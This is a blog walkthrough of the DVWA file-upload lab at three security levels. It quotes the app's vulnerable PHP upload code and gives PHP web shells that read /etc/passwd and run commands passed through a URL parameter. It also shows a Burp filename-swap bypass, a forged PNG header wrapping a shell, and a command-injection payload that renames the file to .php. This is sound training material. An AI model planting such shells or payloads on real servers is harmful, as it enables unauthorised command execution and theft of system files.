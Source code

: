 +++
date = '2025-10-16T15:00:11+07:00'
draft = false
title = 'DVWA File Upload Low/Medium/High Security'
tags = ['DVWA']
description = 'Leveraging file upload functionality to gain access to server.'

[cover]
  image = '/images/posts/dvwa-file-upload.jpg'
  alt = 'DVWA File Upload'
  caption = 'DVWA File Upload'
  relative = false
+++

## Description

-   **Vulnerability:** File Upload
-   **Impact:** Leveraging file upload functionality to gain access to server.

---

## LOW Security Level

This level has this source code:

```php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

So this is simple when upload a file to the server it will be saved to this folder `/hackable/uploads` so after uploading we can get access to the file through `/hackable/uploads/<filename>`.

Searching about **PHP Web Shell** you can find a lot of code to run commands on the server then `echo` the result to out view. The PHP is:

```php
<?php
    $output = shell_exec('cat /etc/passwd');
    echo "<pre>$output</pre>";
?>
```

Create a `shell.php` with that command and upload to the server. Browse `/hackable/uploads/shell.php` you should see the `/etc/passwd` content of your system.

Exploit file: [link](https://github.com/jameskaois/dvwa-vulnerabilities/blob/main/file-upload/shell-low-security.php)

## MEDIUM Security Level

In this level, we will use Burp Suite to change the filename in order for the web app to run our PHP code.

We have to change the filename of our created PHP code from `shell.php` to `shell.php.jpg` which is acceptable to be uploaded to the app because the server has this check in the source code:

```php
// Is it an image?
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
    ( $uploaded_size < 100000 ) ) {

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
else {
    // Invalid file
    echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
}
```

We cannot upload a file that isn't `.jpeg` or `.png`. Before upload `shell.php.jpg` I will turn on Intercept in Burp Suite and upload the file.

In the captured request I will change the `shell.php.jpg` to the original `shell.php`. By this way we can bypass the check but still can run our PHP code.

Visit `/hackable/uploads/shell.php` we should get our desired result.

Exploit file: [link](https://github.com/jameskaois/dvwa-vulnerabilities/blob/main/file-upload/shell-medium-security.php.jpg)

## HIGH Security Level

The updated source code has new check:

```php
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
    ( $uploaded_size < 100000 ) &&
    getimagesize( $uploaded_tmp ) ) {
        // ...
    }
```

This code will prevent us using the approach from MEDIUM security level. We have to create a fake image file. Use this code to fake a `shell.png` file:

```bash
echo -ne '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a<?php system($_GET["cmd"]); ?>' > shell.png
```

Upload the `shell.png`, it should be successful. Then we have to combine with `Command Injection` vulnerability with this payload:

```bash
1.1.1.1|mv ../../hackable/uploads/shell.png ../../hackable/uploads/shell.php
```

Then visit `/hackable/uploads/shell.php?cmd=cat /etc/passwd`. You should get the content of `/etc/passwd` of your own system.

Exploit file: [link](https://github.com/jameskaois/dvwa-vulnerabilities/blob/main/file-upload/shell-high-security.png)

## Resources

-   https://www.acunetix.com/websitesecurity/upload-forms-threat/
-   https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
